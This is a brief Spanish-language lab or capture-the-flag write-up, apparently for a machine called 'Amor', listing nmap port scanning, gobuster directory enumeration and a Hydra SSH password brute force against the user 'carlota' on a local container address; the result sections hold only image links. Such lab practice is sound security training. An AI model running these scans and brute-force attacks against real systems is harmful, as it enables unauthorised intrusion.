


# Amor - Proceso de Enumeración y Ataque

## 1. Escaneo de Puertos y Servicios

Se ejecutó el siguiente comando para identificar los servicios disponibles:
```
nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
```
Resultados:



---

## 2. Enumeración de Directorios con Gobuster

Se utilizó Gobuster para buscar directorios y archivos en el servidor web:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
Resultado:


---

## 3. Ataque de Fuerza Bruta con Hydra

Se intentó obtener acceso por fuerza bruta al servicio SSH usando Hydra:
```
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
---